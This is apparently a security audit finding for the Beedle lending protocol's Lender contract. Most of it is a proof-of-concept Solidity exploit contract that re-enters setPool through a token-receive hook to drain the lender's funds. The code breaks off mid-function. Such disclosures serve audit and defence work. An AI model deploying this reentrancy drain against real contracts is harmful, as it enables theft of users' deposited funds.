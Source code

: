 ```solidity
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L159


## Impact
### POC
An attacker can use the following exploit contract to drain the `lender` contract:
```solidity
File: Exploit3.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {WeirdToken} from "./WeirdToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit3  {
    Lender lender;
    Pool pool;

    constructor(Lender _lender) {
        lender = _lender;
    }

    function attack(address _loanToken, uint256 _poolBalance) external {
        ERC20(_loanToken).approve(address(lender), _poolBalance);
        // [1] Create a new pool
        Pool memory p = Pool({
            lender: address(this),
            loanToken: _loanToken,
            collateralToken: address(0),
            minLoanSize: 10*10**18,
            poolBalance: _poolBalance,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        lender.setPool(p);
        // [2] Update pool with 0 poolBalance
        p.poolBalance = 0;
        pool = p;
        lender.setPool(p);
        // [3] Send the funds back to the attacker
        ERC20(_loanToken).transfer(msg.sender, ERC20(_loanToken).balanceOf(address(this)));
    }

    function tokensReceived(address from, address /*to*/, uint256 amount) external {
        Pool memory p = pool;
        require(msg.sender == p.loanToken, "not collateral token");
        if (from == address(lender)) {
            uint256 lenderBalance = ERC20(p.loanToken).balanceOf(address(lender));
            if (lenderBalance > 0) {
                // Re-enter
                if (lenderBalance < amount) {
                    p.poolBalance = amount - lenderBalance;
                }
                lender.setPool(p);
            }          
```